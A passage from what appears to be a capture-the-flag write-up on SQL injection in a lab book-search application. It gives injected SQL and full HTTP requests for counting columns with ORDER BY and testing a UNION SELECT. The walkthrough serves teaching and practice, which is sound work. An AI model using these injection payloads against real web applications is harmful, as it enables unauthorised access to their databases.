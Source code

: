 ```http
```

It does! This confirms the presence of the SQL injection vulnerability.

Since output from the query is directly rendered on the page, a `UNION` attack may be possible. First, determine the number of columns being returned using the incremental `ORDER BY` method to execute this SQL query.

```sql
SELECT * from books WHERE id = (SELECT id FROM books WHERE title like '%') ORDER BY $INDEX--%')
```

```http
GET /challenge6/book?title=%')+ORDER+BY+5-- HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJyrVkrOSMzJSc1LTzWLLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHh4bmA.YQ8GJg.Dld_9hHLGCER2geRTTYpc2xkKZE
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```

Ordering by indexes 1-4 cause a book to return, but ordering by index 5 causes no book to be returned. This indicates that there are 4 columns being returned in in the original query.

Based on interacting with the application so far, the columns are presumably `id`, `title`, `description`, and `author`. The latter 3 are probably all of type string, whereas `id` is probably type integer. Inject a `UNION SELECT` to test this by executing the following SQL query.

```sql
SELECT * from books WHERE id = (SELECT id FROM books WHERE title like '%') UNION SELECT 1,'a','b','c'--%')
```

This should cause the application to return an extra book.

```http
GET /challenge6/book?title=%')+UNION+SELECT+1,'a','b','c'-- HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJyrVkrOSMzJSc1LTzWLLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHh4bmA.YQ8GJg.Dld_9hHLGCER2geRTTYpc2xkKZE
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
